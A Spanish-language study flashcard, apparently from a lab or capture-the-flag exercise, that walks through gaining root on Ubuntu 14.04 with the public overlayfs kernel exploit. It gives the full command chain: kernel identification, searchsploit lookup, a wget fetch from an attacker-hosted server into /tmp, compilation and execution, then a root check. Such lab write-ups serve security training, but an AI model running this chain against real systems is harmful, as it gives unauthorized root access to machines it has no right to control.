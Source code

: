 **Flashcard: Escalada de privilegios en Ubuntu 3.13.0-24 usando exploit overlayfs**

---

**Objetivo:** Obtener privilegios root desde usuario limitado (`karen`) en Ubuntu 14.04 con kernel `3.13.0-24-generic`.

---

**1. Identificación del sistema y kernel**

* Comando:

```bash
uname -a
```

* Resultado:

```
Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 GNU/Linux
```

* Nota: Kernel antiguo, vulnerable a exploits locales conocidos como `overlayfs`.

---

**2. Búsqueda del exploit adecuado**

* Herramienta: `searchsploit`
* Comando:

```bash
searchsploit ubuntu 3.13
```

* Exploit seleccionado:

```
linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 - 'overlayfs' Local Privilege Escalation
```

---

**3. Preparación del servidor atacante para transferir el exploit**

* Comando en máquina atacante:

```bash
python3 -m http.server 8000
```

* Confirmar IP de la interfaz VPN:

```bash
ip a
```

* Ejemplo IP: `10.6.23.167`

---

**4. Transferencia del exploit a la víctima**

* Directorio escribible recomendado: `/tmp`
* Comando en víctima:

```bash
wget http://10.6.23.167:8000/exploit.c -O /tmp/exploit.c
cd /tmp
```

---

**5. Compilación del exploit**

* Comando:

```bash
gcc exploit.c -o exploit
```

* Resultado: genera binario ejecutable `exploit` en `/tmp`.

---

**6. Ejecución del exploit**

* Comando:

```bash
./exploit
```

* Indicadores de ejecución:

```
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
```

---

**7. Verificación de privilegios**

* Comando:

```bash
id
```

* Resultado esperado:

```
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```

* Conclusión: Privilegios root obtenidos, explotación exitosa.

---

**Notas finales:**

* Exploit: `overlayfs` permite crear `/etc/ld.so.preload` y cargar librerías maliciosas para elevar privilegios.
* Directorio `/tmp` usado por permisos de escritura de usuario.
* Kernel vulnerable: `3.13.0-24-generic`.

---

